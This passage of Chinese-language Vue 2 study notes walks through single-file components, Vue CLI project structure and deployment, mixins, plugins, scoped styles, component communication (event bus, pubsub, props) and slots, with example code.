     <div class="demo">
       <h2>学校名称：{{ name }}</h2>
       <h2>学校地址：{{ address }}</h2>
       <button @click="showName">点我提示学校名</button>
     </div>
   </template>
   
   <script>
   export default {
     name: 'School', // Vue开发者工具中显示的名称，最好和文件名保持一致
     data() {
       return {
         name: '尚硅谷',
         address: '北京昌平',
       }
     },
     methods: {
       showName() {
         alert(this.name)
       },
     },
   }
   </script>
   
   <style>
   .demo {
     background-color: orange;
   }
   </style>
   ```

   2）Student.vue

   ```vue
   <template>
   	<div>
   		<h2>学生姓名：{{name}}</h2>
   		<h2>学生年龄：{{age}}</h2>
   	</div>
   </template>
   
   <script>
   	 export default {
   		name:'Student',
   		data(){
   			return {
   				name:'张三',
   				age:18
   			}
   		}
   	}
   </script>
   ```

2. 入口：

   1）App.vue

   ```vue
   <template>
     <div>
       <School></School>
       <Student></Student>
     </div>
   </template>
   
   <script>
   //引入组件
   import School from './School.vue'
   import Student from './Student.vue'
   
   export default {
     name: 'App',
     components: {
       School,
       Student
     }
   }
   </script>
   ```

   2）main.js

   ```js
   import App from './App.vue'	// 浏览器不支持此语法，需要搭建cil脚手架
   
   new Vue({
     el: '#root',
     template: `<App></App>`,
     components: { App },
   })
   ```

   3）index.html：不能直接运行，这是因为浏览器不支持main.js的模块化语法，需要搭建脚手架执行

   ```html
   <!DOCTYPE html>
   <html>
     <head>
       <meta charset="UTF-8" />
       <title>练习一下单文件组件的语法</title>
     </head>
     <body>
       <!-- 准备一个容器 -->
       <div id="root"></div>
       <script type="text/javascript" src="../js/vue.js"></script>
       <script type="text/javascript" src="./main.js"></script>
     </body>
   </html>
   ```

------

## 第2章 Vue-CLI

### 2.0 项目上线流程

#### 文件结构

1. `src/`文件夹：存放最主要的前端文件

   1）`components/`文件夹：存放一般组件，包含`各组件.vue`

   2）`store/`文件夹：Vuex，包含`index.js`、`各组件.js`

   3）`router/`文件夹：vue路由配置，包含`index.js`

   4）`pages/`文件夹：存放路由组件，包含`各组件.vue`

   5）`assets/`文件夹：存放静态资源，如logo.png

   5）`App.vue`：父组件，对各个组件的汇总

   6）`main.js`：入口文件

2. `public/`文件夹：存放html主页及css样式文件

   1）`css/`文件夹：存放引入的`各样式.css`

   2）`index.html`：主页面，在此文件中引入第三方样式，路径用<%= BASE_URL %>css/xxx.css

   3）`favicon.ico`：页签图标

3. `node_modules/`文件夹：存放第三方库

4. `dist/`文件夹：存放打包后的前端文件，复制到express服务器的static文件夹进行部署

5. `.gitignore`：git版本管制忽略的配置文件

6. `babel.config.js`：babel的配置文件（以前叫`.babelrc`），如果使用第三方UI组件库，需要根据官方说明进行配置

7. `package.json`：应用包配置文件

8. `package-lock.json`：包版本控制文件

9. `README.md`：应用描述文件

10. `vue.config.js`：脚手架配置文件，用于配置代理等

#### 前端配置

1. 创建项目：

   ```bash
   vue create projectName
   ```

2. 打包项目：

   ```bash
   npm run build
   ```

3. 将生成的`dist`文件夹中的内容放入express中的`static`文件夹

4. 备注：如果需要修改`vue.config.js`，可以参考以下文件

   ```js
   module.exports = {
     pages: {
       index: {
         //入口
         entry: 'src/main.js',
       },
     },
     lintOnSave: false, //关闭语法检查
   
     // 开启代理服务器（方式一）：只能控制单个服务器，且只有public文件夹中找不到资源时才会请求代理服务器
     /* devServer: {
       proxy: 'http://localhost:5000'
     }, */
   
     //开启代理服务器（方式二）
     devServer: {
       proxy: {
         '/atguigu': {
           target: 'http://localhost:5000',
           pathRewrite: { '^/atguigu': '' }, // 重写路径，不然后端服务器路径错误
           // ws: true, //用于支持websocket
           // changeOrigin: true //用于控制请求头中的host值，如果为false则如实回答，如果是ture(默认)则谎称与服务器同源
         },
         '/demo': {
           target: 'http://localhost:5001',
           pathRewrite: { '^/demo': '' },
           // ws: true, //用于支持websocket
           // changeOrigin: true //用于控制请求头中的host值
         },
       },
     },
   }
   ```

#### 后端配置

1. 项目初始化：

   ```bash
   npm init -y
   ```

2. 安装express服务器：

   ```bash
   npm i express
   ```

3. 配置express服务器：`server.js`，如果使用history模式则需要用`connect-history-api-fallback`插件

   ```js
   const express = require('express')
   // 引入history相关插件
   const history = require('connect-history-api-fallback')
   
   const app = express()
   // 全局中间件：挂载history相关插件
   app.use(history())
   // 托管静态资源
   app.use(express.static(__dirname + '/static'))
   // 配置GET请求等等
   app.get(...)
   ......
   // 启动服务器
   app.listen(8080, (err) => {
     if(!err) console.log('服务器成功启动了!')
   })
   ```

4. 新建`static`文件夹，将前端打包好的`dis`t文件夹中全部内容放入其中

5. 开启服务器

   ```bash
   node server.js
   ```

------

### 2.1 初始化脚手架

> 官网：[https://cli.vuejs.org/zh/](https://cli.vuejs.org/zh/)

#### 2.1.1 脚手架版本

1. vue.js：完整版的Vue，包含核心功能+模板解析器

2. vue.runtime.xxx.js：运行版的Vue，只包含核心功能；没有模板解析器

* 不能使用template配置项，需要使用`render`函数接收到的`createElement`函数去指定具体内容

  ```js
  render(createElement) { return createElement(APP) }
  // 简写
  render: h => h(APP)
  ```

3. 开发者工具：chrome网上商店安装[不带beta版logo的](https://chrome.google.com/webstore/detail/vuejs-devtools/nhdogjmejiglipccpnnnanhbledajbpd?utm_source=chrome-ntp-icon)

   

#### 2.1.2 使用步骤

> 查看服务器上全部可用版本：npm view 包名 versions

1. 全局安装

   ```bash
   npm i @vue/cli -g
   ```

2. 创建项目：

   ```bash
   vue create projectName
   ```

3. 启动项目：

   ```bash
   npm run serve
   ```

4. 提示：vue inspect > 自定义输出文件名.js，可以查看到Vue脚手架的默认配置

   ```bash
   vue inspect > config.js
   ```

#### 2.1.3 项目文件结构

| 类别     | 文件              | 备注                                                         |
| :------- | :---------------- | :----------------------------------------------------------- |
| 第三方库 | node_modules/     | 第三方库                                                     |
| 第三方库 | package.json      | 应用包配置文件                                               |
| 第三方库 | package-lock.json | 包版本控制文件                                               |
| public/  | favicon.ico       | 页签图标                                                     |
| public/  | index.html        | 主页面，在此文件中引入第三方样式，路径用<%= BASE_URL %>css/xxx.css |
| public/  | 其他资源文件夹    | 若想引入第三方样式，建立css文件夹，存放css文件               |
| src/     | assets/           | 存放静态资源，如logo.png                                     |
| src/     | components/       | 存放组件，如HelloWorld.vue                                   |
| src/     | App.vue           | 汇总所有组件                                                 |
| src/     | main.js           | 入口文件                                                     |
| 其他文件 | .gitignore        | git版本管制忽略的配置文件                                    |
| 其他文件 | babel.config.js   | babel的配置文件（以前叫`.babelrc`），如果使用第三方UI组件库，需要根据官方说明进行配置 |
| 其他文件 | README.md         | 应用描述文件                                                 |
| 其他文件 | vue.config.js     | 脚手架配置文件，用于配置代理等                               |

1. 组件：src/components/School.vue

   ```vue
   <template>
     <div class="demo">
       <h2>学校名称：{{name}}</h2>
       <h2>学校地址：{{address}}</h2>
       <button @click="showName">点我提示学校名</button>
     </div>
   </template>
   
   <script>
   export default {
     name: 'School',
     data() {
       return {
         name: '尚硅谷',
         address: '北京昌平'
       }
     },
     methods: {
       showName() {
         alert(this.name)
       }
     }
   }
   </script>
   
   <style>
   .demo {
     background-color: orange;
   }
   </style>
   ```

2. 组件：src/components/Student.vue

   ```vue
   <template>
     <div>
       <h2>学生姓名：{{name}}</h2>
       <h2>学生年龄：{{age}}</h2>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Student',
     data() {
       return {
         name: '张三',
         age: 18
       }
     }
   }
   </script>
   ```

3. 汇总组件：src/App.vue

   ```vue
    <template>
     <div>
       
       <School></School>
       <Student></Student>
     </div>
   </template>
   
   <script>
   //引入组件
   import School from './components/School'
   import Student from './components/Student'
   
   export default {
     name: 'App',
     components: {
       School,
       Student
     }
   }
   </script>
   ```

4. 入口文件：src/main.js

   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App组件，它是所有组件的父组件
   import App from './App.vue'
   //关闭vue的生产提示
   Vue.config.productionTip = false
   
   //创建Vue实例对象vm
   new Vue({
     el: '#app',
     // render函数：将App组件放入容器中
     // render(createElement) {
     //   return createElement(APP)
     // },
     // 简写：h代表createElement
     render: (h) => h(App),
   })
   ```

5. 主页面：public/index.html

   ```html
   <head>
     <meta charset="utf-8" />
     <!-- 针对IE浏览器的一个特殊配置，含义是让IE浏览器以最高的渲染级别渲染页面 -->
     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
     <!-- 开启移动端的理想视口 -->
     <meta name="viewport" content="width=device-width,initial-scale=1.0" />
     <!-- 配置页签图标 -->
     <link rel="icon" href="<%= BASE_URL %>favicon.ico" />
     <!-- 引入第三方样式 -->
     <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css" />
     <!-- 配置网页标题 -->
     <title>硅谷系统</title>
   </head>
   <body>
     <!-- 当浏览器不支持js时noscript中的元素就会被渲染 -->
     <noscript>
       <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
     </noscript>
     <!-- 容器 -->
     <div id="app"></div>
     <!-- built files will be auto injected -->
   </body>
   ```

------

### 2.2 ref属性

1. 作用：相当于id，类似于`document.getElementById('id') `

2. 使用：`this.$refs.refName`

   ```vue
   <template>
     <div>
       <!-- ref相当于id，类似于document.getElementById('id') -->
       <!-- <h1 v-text="msg" id="title"></h1> -->
       <h1 v-text="msg" ref="title"></h1>
       <button ref="btn" @click="showDOM">点我输出上方的DOM元素</button>
       <School ref="sch" />
     </div>
   </template>
   <script>
   //引入School组件
   import School from './components/School'
   
   export default {
     name: 'App',
     components: { School },
     data() {
       return {
         msg: '欢迎学习Vue！'
       }
     },
     methods: {
       showDOM() {
         // console.log(document.getElementById('title')) // 等价于id写法
         console.log(this.$refs.title) //真实DOM元素
         console.log(this.$refs.btn)   //真实DOM元素
         console.log(this.$refs.sch)   //School组件的实例对象（vc），这里如果用id无法获取vc
       }
     }
   }
   </script>
   ```

------

### 2.3 混入 mixin

> 作用：可以把多个组件共用的配置提取成一个混入对象

1. 注意：

   1）如果data中的属性名与mixins中的冲突，以data中的为准

   2）如果mixin.js有mounted()，生命周期钩子不会冲突，全都加载一遍（先加载组件身上的）

   3）关于mounted()加载次数的问题：看Vue开发工具中一共有几层，就加载几遍

2. 创建：`minin.js`，`export const XXX = { data:{...}, methods:{...} }`

   ```js
   // 分别暴露写法，引入时要用 import {hunhe,hunhe2,...} from './mixin.js'
   export const hunhe = {
     methods: {
       showName() {
         alert(this.name)
       },
     },
     mounted() {
       console.log('挂载minxin中的mounted！')
     },
   }
   export const hunhe2 = {
     data() {
       return {
         x: 100,
         y: 200,
       }
     },
   }
   ```

3. 全局混入：`main.js`，所有vm、vc身上都有了

   1）导入：`import {xxx} from '../mixin'`

   2）挂载：`Vue.mixin(xxx)`

   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App
   import App from './App.vue'
   import { hunhe, hunhe2 } from './mixin'
   //关闭Vue的生产提示
   Vue.config.productionTip = false
   
   // 全局混合，所有vm、vc身上都有了
   Vue.mixin(hunhe)
   Vue.mixin(hunhe2)
   
   //创建vm
   new Vue({
     el: '#app',
     render: (h) => h(App),
   })
   ```

4. 局部混入：组件.vue

   1）导入：`import {xxx} from '../mixin'`

   2）挂载：`export default {..., mixins:[xxx]}`

   ```vue
   <!--School.vue-->
   <template>
     <div>
       <h2 @click="showName">学校名称：{{name}}</h2>
       <h2>学校地址：{{address}}</h2>
     </div>
   </template>
   
   <script>
   //局部混入
   import {hunhe,hunhe2} from '../mixin'
   
   export default {
     name: 'School',
     data() {
       return {
         name: '尚硅谷',
         address: '北京',
         x: 666
         // 如果data中的属性名与mixins中的冲突，以data中的为准
       }
     },
     //挂载混入
     mixins:[hunhe,hunhe2],
     // 注意：即使mixin.js有mounted，但生命周期钩子不会冲突，全都加载一遍
     mounted() {
       console.log('这里是内部挂载！')
     }
   }
   </script>
   ```

   ```vue
   <!--Student.vue-->
   <template>
     <div>
       <h2 @click="showName">学生姓名：{{name}}</h2>
       <h2>学生性别：{{sex}}</h2>
     </div>
   </template>
   
   <script>
   //局部混入
   import {hunhe,hunhe2} from '../mixin'
   
   export default {
     name: 'Student',
     data() {
       return {
         name: '张三',
         sex: '男'
       }
     },
     //挂载混入
     mixins:[hunhe,hunhe2]
   }
   </script>
   ```

------

### 2.4 插件 plugins

> 作用：用于增强Vue，包含`install`方法的一个对象，`install`的第一个参数是`Vue`，第二个以后的参数是插件使用者传递的数据

1. 创建 plugins.js：`export default { install(Vue, arg1, arg2, arg3) {...} }`

2. 传入Vue后，可以在内部创建各种全局指令

   1）全局过滤器：`Vue.filter()`

   2）全局指令：`Vue.directive()`

   3）全局混入：`Vue.mixin()`

   4）全局方法：`Vue.prototype.xxx`

   * `Vue.prototype.$myMethod = function () {...}`
   * `Vue.prototype.$myProperty = xxxx`

   ```js
   // plugins.js
   export default {
     // 插件第一个参数默认是Vue,后面可以自定义需要传入的参数
     install(Vue, x, y, z) {
       console.log(x, y, z)
       //全局过滤器
       Vue.filter('mySlice', function(value) {
         return value.slice(0, 4)
       })
       //全局指令
       Vue.directive('fbind', {
         //指令与元素成功绑定时（一上来）
         bind(element, binding) {
           element.value = binding.value
         },
         //指令所在元素被插入页面时
         inserted(element) {
           element.focus()
         },
         //指令所在的模板被重新解析时
         update(element, binding) {
           element.value = binding.value
         },
       })
       //定义全局混入
       Vue.mixin({
         data() {
           return {
             x: 100,
             y: 200,
           }
         },
       })
       //给Vue原型上添加一个方法（vm和vc就都能用了）
       Vue.prototype.hello = () => {
         alert('你好啊')
       }
     },
   }
   ```

3. 使用：main.js

   1）导入：`import plugins from './plugins'`

   2）应用：`Vue.use(plugins, arg1, arg2, arg3)`

   ```js
   // main.js
   // 引入Vue
   import Vue from 'vue'
   // 引入App
   import App from './App.vue'
   // 引入插件
   import plugins from './plugins'
   // 关闭Vue的生产提示
   Vue.config.productionTip = false
   
   // 应用（使用）插件
   Vue.use(plugins,1,2,3)
   // 创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App)
   })
   ```

4. 剩余文件

   1）组件：components/School.vue

   ```vue
   <template>
   	<div>
           <!--全局过滤器-->
   		<h2>学校名称：{{name | mySlice}}</h2>
   		<h2>学校地址：{{address}}</h2>
           <!--全局方法-->
   		<button @click="test">点我测试一个hello方法</button>
   	</div>
   </template>
   
   <script>
   	export default {
   		name:'School',
   		data() {
   			return {
   				name:'尚硅谷atguigu',
   				address:'北京',
   			}
   		},
   		methods: {
   			test(){
   				this.hello()
   			}
   		},
   	}
   </script>
   ```

   2）组件：components/Student.vue

   ```vue
   <template>
   	<div>
   		<h2>学生姓名：{{name}}</h2>
   		<h2>学生性别：{{sex}}</h2>
           <!--全局指令-->
   		<input type="text" v-fbind:value="name">
   	</div>
   </template>
   
   <script>
   	export default {
   		name:'Student',
   		data() {
   			return {
   				name:'张三',
   				sex:'男'
   			}
   		},
   	}
   </script>
   ```

   3）汇总组件：src/App.vue

   ```vue
   <template>
   	<div>
   		<School/>
   		<hr>
   		<Student/>
   	</div>
   </template>
   
   <script>
   	import School from './components/School'
   	import Student from './components/Student'
   
   	export default {
   		name:'App',
   		components:{School,Student}
   	}
   </script>
   ```

------

### 2.5 scoped样式

> 作用：让样式在局部生效，防止不同组件之间的css样式名称冲突

1. 使用：除了App.vue中的style，其他组件的style都要加`scoped`

2. 参数：`lang`

   1）默认：`lang="css"`

   2）可以指定样式语言，如：`lang="less"`

   3）由于webpeck版本是4.46.0，需要安装 `less-loader@7` 版本才行

3. 文件代码

   1）组件：components/School.vue

   ```vue
   <template>
     <div class="demo">
       <h2 class="title">学校名称：{{name}}</h2>
       <h2>学校地址：{{address}}</h2>
     </div>
   </template>
   
   <script>
   export default {
     name: 'School',
     data() {
       return {
         name: '尚硅谷atguigu',
         address: '北京'
       }
     }
   }
   </script>
   <!--scope作用：防止不同组件之间的css样式名称冲突-->
   <style scoped>
   .demo {
     background-color: skyblue;
   }
   </style>
   ```

   2）组件：components/Student.vue

   ```vue
   <template>
     <div class="demo">
       <h2 class="title">学生姓名：{{name}}</h2>
       <h2 class="atguigu">学生性别：{{sex}}</h2>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Student',
     data() {
       return {
         name: '张三',
         sex: '男'
       }
     }
   }
   </script>
   <!--可以指定style用哪种语言进行定义，如果使用less，需要安装less-loader-->
   <style lang="less" scoped>
   .demo {
     background-color: pink;
     .atguigu {
       font-size: 40px;
     }
   }
   </style>
   ```

   3）汇总组件：src/App.vue，App的style不要加scope，会导致样式冲突！

   ```vue
   <template>
     <div>
       <h1 class="title">你好啊</h1>
       <School />
       <Student />
     </div>
   </template>
   
   <script>
   import Student from './components/Student'
   import School from './components/School'
   
   export default {
     name: 'App',
     components: { School, Student }
   }
   </script>
   
   <!--注意：App的style不要加scope，会导致样式冲突-->
   <!--错误写法-->
   <style scoped>
   .title {
     color: red;
   }
   </style>
   ```

------

### 2.6 本地与会话储存

1. 本地储存语法：(会话储存改为`sessionStorage`即可)

   1）储存数据：`localStorage.setItem('key', 'value')`

   2）读取数据：`localStorage.getItem('key')`，获取不到数据返回null

   3）删除数据：`localStorage.removeItem('key')`

   4）清空数据：`localStorage.clear()`

2. vue在data中设置：

   1）读取本地储存中的数据：`localStorage.getItem()`

   2）如果本地无数据，要设置为空数组，否则为null

   ```vue
   data() {
     return {
       todos: JSON.parse(localStorage.getItem('todos')) || []
     }
   },
   ```

3. watch监视数据：`localStorage.setItem()`，当数据改变时，需要实时更新

   ```vue
   watch: {
     todos: {
       // 必须用深度监视，否则勾选后checked属性不发生变化
       deep: true,
       handler(value) {
         localStorage.setItem('todos', JSON.stringify(value))
       }
     }
   }
   ```

------

### 2.7 组件间通信

#### 2.7.1 任意组件间通信

##### 2.7.1.1 全局事件总线 GlobalEventBus

> 一种组件间通信的方式，适用于任意组件间通信。

1. 安装：main.js

   1）方法1：麻烦，不常用

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   Vue.config.productionTip = false
   
   //安装全局事件总线
   const Demo = Vue.extend({})
   const d = new Demo()
   Vue.prototype.x = d
   ```

   2）方法2：常用方法

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   Vue.config.productionTip = false
   
   new Vue({
     el: '#app',
     render: (h) => h(App),
     beforeCreate() {
       Vue.prototype.$bus = this //安装全局事件总线
     },
   })
   ```

2. 接收数据：`$bus.$on`，A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的回调留在A组件自身

   1）定义处理接收到数据的函数：`methods: { demo(data){...}}`

   2）挂载全局事件：`mounted() { this.$bus.$on('xxx', this.demo)}`

3. 提供数据：`$bus.$emit`

   * 语法：`methods: { sendData函数() { this.$bus.$emit('xxx', 数据) }`

4. 解绑事件：`$bus.$off`

   * 语法：`beforeDestroy() {this.$bus.$off('xxx') }`
   * 作用：在销毁vc之前取消事件挂载，释放名称给其他人用

5. 完整案例代码：

   1）组件：Student.vue，提供数据：`$bus.$emit`
   
   ```vue
   <template>
     <div class="student">
       <h2>学生姓名：{{name}}</h2>
       <h2>学生性别：{{sex}}</h2>
       <button @click="sendStudentName">把学生名给School组件</button>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Student',
     data() {
       return {
         name: '张三',
         sex: '男'
       }
     },
     mounted() {
     },
     methods: {
       sendStudentName() {
         // 全局事件总线：提供数据
         this.$bus.$emit('hello', this.name)
       }
     }
   }
   </script>
   
   <style lang="less" scoped>
   .student {
     background-color: pink;
     padding: 5px;
     margin-top: 30px;
   }
   </style>
   ```
   
   2）组件：School.vue，接收数据：`$bus.$on`、解绑事件：`$bus.$off`
   
   ```vue
   <template>
     <div class="school">
       <h2>学校名称：{{name}}</h2>
       <h2>学校地址：{{address}}</h2>
     </div>
   </template>
   
   <script>
   export default {
     name: 'School',
     data() {
       return {
         name: '尚硅谷',
         address: '北京'
       }
     },
     mounted() {
       // 全局事件总线：接收数据
       this.$bus.$on('hello', data => {
         console.log('我是School组件，收到了数据', data)
       })
     },
     // 全局事件总线：解绑事件
     beforeDestroy() {
       // 注意：要在销毁vc之前取消事件hello的挂载，释放hello名称给其他人用
       this.$bus.$off('hello')
     }
   }
   </script>
   
   <style scoped>
   .school {
     background-color: skyblue;
     padding: 5px;
   }
   </style>
   ```
   
   3）汇总组件：App.vue，与正常无区别
   
   ```vue
   <template>
   	<div class="app">
   		<h1>{{msg}}</h1>
   		<School/>
   		<Student/>
   	</div>
   </template>
   
   <script>
   	import Student from './components/Student'
   	import School from './components/School'
   
   	export default {
   		name:'App',
   		components:{School,Student},
   		data() {
   			return {
   				msg:'你好啊！',
   			}
   		}
   	}
   </script>
   
   <style scoped>
   	.app{
   		background-color: gray;
   		padding: 5px;
   	}
   </style>
   ```

##### 2.7.1.2 消息订阅与发布 pubsub

> 一种组件间通信的方式，适用于任意组件间通信。

1. 安装与引入

   ```bash
   npm i pubsub-js
   ```

   ```js
   import pubsub from 'pubsub-js'
   ```

2. 接收数据（订阅）：`pubsub.subscribe`

   1）A组件接收数据，在A组件订阅消息，回调留在A组件自身

   2）挂载pubId：`this.pubId = pubsub.subscribe('函数名',this.函数)`

   3）原理：每次pubsub时会生成不同的id，根据id号才能取消订阅

   4）接收由`pubsub.publish`提供的数据，第一个参数默认是`msgName`, 第二个参数才是数据，如果不想要第一个参数，要用“`_`”占位，否则报错

   ```js
   // 接收数据组件
   deleteTodo(_, id) {
     this.todos = this.todos.filter(todo => todo.id !== id)
   },
   
   // 提供数据组件
   pubsub.publish('deleteTodo',id)
   ```
   
3. 提供数据（发布）：`pubsub.publish('函数名', 数据)`

   1）定义提供数据的函数：`methods: { sendData函数() { pubsub.publish('函数名', 数据) }`

4. 取消订阅：`pubsub.unsubscribe(唯一对应的id值)`

   1）语法：`beforeDestroy() { pubsub.unsubscribe(this.pubId) }`

5. 完整案例代码：

   1）子组件：Student.vue，提供数据：`pubsub.publish`

   ```vue
   <template>
     <div class="student">
       <h2>学生姓名：{{name}}</h2>
       <h2>学生性别：{{sex}}</h2>
       <button @click="sendStudentName">把学生名给School组件</button>
     </div>
   </template>
   
   <script>
   import pubsub from 'pubsub-js'
   export default {
     name: 'Student',
     data() {
       return {
         name: '张三',
         sex: '男'
       }
     },
     mounted() {
     },
     methods: {
       sendStudentName() {
         // 全局事件总线：提供数据
         // this.$bus.$emit('hello',this.name)
         
         // 消息订阅与发布：提供数据
         pubsub.publish('hello', 666)
       }
     }
   }
   </script>
   
   <style lang="less" scoped>
   .student {
     background-color: pink;
     padding: 5px;
     margin-top: 30px;
   }
   </style>
   ```
   
   2）子组件：School.vue，接收数据：`pubsub.subscribe`、取消订阅：`pubsub.unsubscribe`
   
   ```vue
   <template>
     <div class="school">
       <h2>学校名称：{{name}}</h2>
       <h2>学校地址：{{address}}</h2>
     </div>
   </template>
   
   <script>
   // 第三方插件：pubsub-js（所有框架可用，包括angular、react）
   import pubsub from 'pubsub-js'
   export default {
     name: 'School',
     data() {
       return {
         name: '尚硅谷',
         address: '北京'
       }
     },
     mounted() {
       // 全局事件总线：接收数据
       /* this.$bus.$on('hello',(data)=>{
   		  console.log('我是School组件，收到了数据',data)
   	   }) */
       
   	// 消息订阅与发布：接收数据
       // 每次pubsub时会生成不同的id，根据id号才能取消订阅，所以要挂到this上
       this.pubId = pubsub.subscribe('hello', (msgName, data) => {
         // 注意：如果是箭头函数，this指向vc；如果是正常函数，this是undefined
         console.log(this)
         // 参数：msgName：消息名称；data：数据
         console.log('有人发布了hello消息，hello消息的回调执行了', msgName, data)
       })
     },
     beforeDestroy() {
       // 全局事件总线：解绑事件
       // this.$bus.$off('hello')
       
       // 消息订阅与发布：取消订阅
       pubsub.unsubscribe(this.pubId)
     }
   }
   </script>
   
   <style scoped>
   .school {
     background-color: skyblue;
     padding: 5px;
   }
   </style>
   ```
   
   3）汇总组件：App.vue，与正常无区别
   
   ```vue
   <template>
     <div class="app">
       <h1>{{msg}}</h1>
       <School />
       <Student />
     </div>
   </template>
   
   <script>
   import Student from './components/Student'
   import School from './components/School'
   
   export default {
     name: 'App',
     components: { School, Student },
     data() {
       return {
         msg: '你好啊！'
       }
     }
   }
   </script>
   
   <style scoped>
   .app {
     background-color: gray;
     padding: 5px;
   }
   </style>
   ```
   
   4）入口文件：main.js，与正常无区别
   
   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App
   import App from './App.vue'
   //关闭Vue的生产提示
   Vue.config.productionTip = false
   
   //创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
   })
   ```

------

#### 2.7.2 父传子

##### 2.7.2.1 props配置

1. 传递数据：在App.vue中配置

   1）例：`<Student name="李四" sex="女" :age="18" />`

   2）注意：默认传递字符串，如果是数字要在age前加冒号

   ```vue
   <template>
     <div>
       <!-- 这里如果age是数字，需要用v-bind绑定，这样的话直接解析引号里面的内容 -->
       <Student name="李四" sex="女" :age="18" />
     </div>
   </template>
   
   <script>
   import Student from './components/Student'
   
   export default {
     name: 'App',
     components: { Student }
   }
   </script>
   
   ```

2. 接收数据：在子组件中配置

   1）第一种方式（只接收）：`props:['name','age','sex']`

   2）第二种方式（限制类型）：`props:{name:String, age:Number, sex:String}`

   3）第三种方式（限制类型、限制必要性、指定默认值）

   * `type`：类型，如String、Number
   * `required`：布尔值，是否必须输入
   * `default`：仅required为false时生效，指定默认值

   ```vue
   <template>
     <div>
       <h1>{{msg}}</h1>
       <h2>学生姓名：{{name}}</h2>
       <h2>学生性别：{{sex}}</h2>
       <!--这里没有直接使用接收到的age，而是在data中定义了myAge进行进一步加工-->
       <h2>学生年龄：{{myAge+1}}</h2>
       <button @click="updateAge">尝试修改收到的年龄</button>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Student',
     data() {
       return {
         msg: '我是一个尚硅谷的学生',
         // props中的属性优先级高于data中的属性
         // 注意：接收到的属性尽量不要修改！如果非要修改，在data中定义一个其他名称的变量，如：myAge: this.age
         myAge: this.age
       }
     },
   
     methods: {
       updateAge() {
         this.myAge++
       }
     },
     
     // 1. 第一种方式（只接收）
     // props:['name','age','sex']
   
     // 2. 第二种方式（限制类型）
     /* props:{
   		name:String,
   		age:Number,
   		sex:String
   	} */
   
     // 3. 第三种方式（限制类型、限制必要性、指定默认值）
     props: {
       name: {
         type: String, // name的类型是字符串
         required: true // name是必要的
       },
       age: {
         type: Number,
         default: 99 // 默认值，如果不传入age为默认值
       },
       sex: {
         type: String,
         required: true
       }
     }
   }
   </script>
   ```

3. 注意：

   1）props中的属性优先级高于data中的属性

   2）接收到的属性尽量不要修改！如果非要修改，在data中定义一个其他名称的变量，如：myAge: this.age

   3）props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告
   
   4）如果子组件没有用props接收父组件传递的数据，则这些数据会在vc实例的`$attrs`属性中出现，并未丢失

##### 2.7.2.2 插槽 slot

> 作用：让父组件可以向子组件指定位置插入html结构（可在vc实例的`$slots`属性中查看）

###### 2.7.2.2.1 默认插槽

1. 父组件 App.vue：在子组件标签中写本应在子组件vue文件中写的内容

   ```vue
   <template>
     <div class="container">
       <Category title="美食">
         <!-- 在父组件中写的子组件标签，里面如果再写内容，需要在子组件vue文件中配置<slot>指定插入位置 -->
         
       </Category>
   
       <Category title="游戏">
         <ul>
           <li v-for="(g,index) in games" :key="index">{{g}}</li>
         </ul>
       </Category>
   
       <Category title="电影">
         <video controls src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"></video>
       </Category>
     </div>
   </template>
   
   <script>
   import Category from './components/Category'
   export default {
     name: 'App',
     components: { Category },
     data() {
       return {
         foods: ['火锅', '烧烤', '小龙虾', '牛排'],
         games: ['红色警戒', '穿越火线', '劲舞团', '超级玛丽'],
         films: ['《教父》', '《拆弹专家》', '《你好，李焕英》', '《尚硅谷》']
       }
     }
   }
   </script>
   
   <style scoped>
   .container {
     display: flex;
     justify-content: space-around;
   }
   </style>
   ```

2. 子组件 Category.vue：用`<slot>`标签指定插入内容的位置

   ```vue
   <template>
     <div class="category">
       <h3>{{title}}分类</h3>
       <!-- 定义一个插槽（挖个坑，等着组件的使用者进行填充） -->
       <slot>我是一些默认值，当使用者没有传递具体结构时，我会出现</slot>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Category',
     props: ['title']
   }
   </script>
   
   <style scoped>
   .category {
     background-color: skyblue;
     width: 200px;
     height: 300px;
   }
   h3 {
     text-align: center;
     background-color: orange;
   }
   video {
     width: 100%;
   }
   img {
     width: 100%;
   }
   </style>
   ```

###### 2.7.2.2.2 具名插槽 name

1. 父组件 App.vue：在子组件标签里写的内容标签，带上 `slot="xxx"` 的属性

   * 注意：在里面可以再用`<template>`包裹多内容标签，用 `v-slot:xxx` 指定名称

   ```vue
   <template>
     <div class="container">
       <Category title="美食" >
         
         <a slot="footer" href="http://www.atguigu.com">更多美食</a>
       </Category>
   
       <Category title="游戏" >
         <ul slot="center">
           <li v-for="(g,index) in games" :key="index">{{g}}</li>
         </ul>
         <!-- 多内容写法1 -->
         <div class="foot" slot="footer">
           <a href="http://www.atguigu.com">单机游戏</a>
           <a href="http://www.atguigu.com">网络游戏</a>
         </div>
       </Category>
   
       <Category title="电影">
         <video slot="center" controls src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"></video>
         <!-- 多内容写法2：可再用<template>包裹多内容标签，用 v-slot:xxx 指定名称 -->
         <template v-slot:footer>
           <div class="foot">
             <a href="http://www.atguigu.com">经典</a>
             <a href="http://www.atguigu.com">热门</a>
             <a href="http://www.atguigu.com">推荐</a>
           </div>
           <h4>欢迎前来观影</h4>
         </template>
       </Category>
     </div>
   </template>
   
   <script>
     import Category from './components/Category'
     export default {
       name:'App',
       components:{ Category },
       data() {
         return {
           foods:['火锅','烧烤','小龙虾','牛排'],
           games:['红色警戒','穿越火线','劲舞团','超级玛丽'],
           films:['《教父》','《拆弹专家》','《你好，李焕英》','《尚硅谷》']
         }
       },
     }
   </script>
   
   <style scoped>
